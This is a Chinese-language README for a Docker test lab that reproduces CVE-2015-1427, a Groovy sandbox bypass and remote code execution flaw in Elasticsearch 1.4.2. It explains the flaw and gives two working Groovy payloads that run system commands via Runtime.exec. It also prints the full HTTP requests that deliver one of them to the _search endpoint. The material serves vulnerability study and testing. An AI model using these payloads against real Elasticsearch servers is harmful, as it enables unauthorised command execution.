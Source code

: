 # ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞（CVE-2015-1427）测试环境

jre版本：openjdk:8-jre

elasticsearch版本：v1.4.2

## 原理

参考文章：

- http://cb.drops.wiki/drops/papers-5107.html
- http://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/
- https://github.com/XiphosResearch/exploits
- http://cb.drops.wiki/drops/papers-5142.html

CVE-2014-3120后，ElasticSearch默认的动态脚本语言换成了Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。本漏洞：1.是一个沙盒绕过； 2.是一个Goovy代码执行漏洞。

## Groovy语言“沙盒”

ElasticSearch支持使用“在沙盒中的”Groovy语言作为动态脚本，但显然官方的工作并没有做好。lupin和tang3分别提出了两种执行命令的方法：

1. 既然对执行Java代码有沙盒，lupin的方法是想办法绕过沙盒，比如使用Java反射
2. Groovy原本也是一门语言，于是tang3另辟蹊径，使用Groovy语言支持的方法，来直接执行命令，无需使用Java语言

所以，根据这两种执行漏洞的思路，我们可以获得两个不同的POC。

Java沙盒绕过法：

```
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()
```

Goovy直接执行命令法：

```
def command='id';def res=command.execute().text;res
```

## 漏洞测试

编译及运行测试环境

```
docker-compose build
docker-compose up -d
```

由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "test"
}
```

然后发送包含payload的数据包，执行任意命令：

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
```

![](1.png)

